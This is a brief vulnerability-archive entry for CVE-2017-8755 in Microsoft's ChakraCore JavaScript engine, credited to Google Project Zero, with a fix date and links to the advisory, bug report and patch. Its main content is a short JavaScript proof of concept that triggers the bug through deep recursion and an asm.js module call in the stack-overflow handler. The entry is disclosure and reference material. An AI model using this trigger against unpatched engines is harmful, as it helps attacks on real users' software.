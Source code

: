 # CVE-2017-8755

- Fix: Sep 2017
- Credit: lokihardt of Google Project Zero

## PoC

```javascript
function Module() {
    'use asm';

    function f() {
    }

    return f;
}

function recur() {
    try {
        recur();
    } catch (e) {
        Module(1);
    }
}

recur();
```

## Reference

- [Microsoft](https://portal.msrc.microsoft.com/en-us/security-guidance/advisory/CVE-2017-8755)
- [Google Project Zero](https://bugs.chromium.org/p/project-zero/issues/detail?id=1327)
- [Fix](https://github.com/Microsoft/ChakraCore/commit/210c0b2fc9090d55f91417415c4b51725d3845e1)